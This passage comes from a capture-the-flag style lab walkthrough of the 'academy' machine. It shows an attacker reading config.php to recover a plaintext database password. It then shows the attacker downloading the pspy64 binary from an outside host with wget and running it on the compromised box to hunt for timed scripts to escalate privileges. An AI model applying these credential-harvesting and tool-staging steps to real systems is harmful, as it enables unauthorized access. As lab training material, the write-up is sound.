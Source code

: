 <aside>
💡 and we have a potential place for finding some more data in includes folder

</aside>

<aside>
💡 lets try to access the includes folder

</aside>

```jsx
$ ls /var/www/html/academy/includes
config.php
footer.php
header.php
menubar.php
```

<aside>
💡 config,php seems like a good place to look in

</aside>

<aside>
💡 We find the same file linpeas got for us

</aside>

```jsx
cat config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
```

<aside>
💡 Now lets head back to grimme, and notice that the [backup.sh](http://backup.sh) seems like a script so we can check to see if its running as  a timed script.
Download pspy from here: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

</aside>

```jsx
grimmie@academy:~$ wget http://192.168.1.107/pspy64
--2023-07-29 07:08:10--  http://192.168.1.107/pspy64
Connecting to 192.168.1.107:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                  100%[==============================================================================>]   2.96M  --.-KB/s    in 0.02s   

2023-07-29 07:08:10 (164 MB/s) - ‘pspy64’ saved [3104768/3104768]

grimmie@academy:~$ ./pspy64
-bash: ./pspy64: Permission denied
grimmie@academy:~$ chmod +x pspy64
grimmie@academy:~$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
```

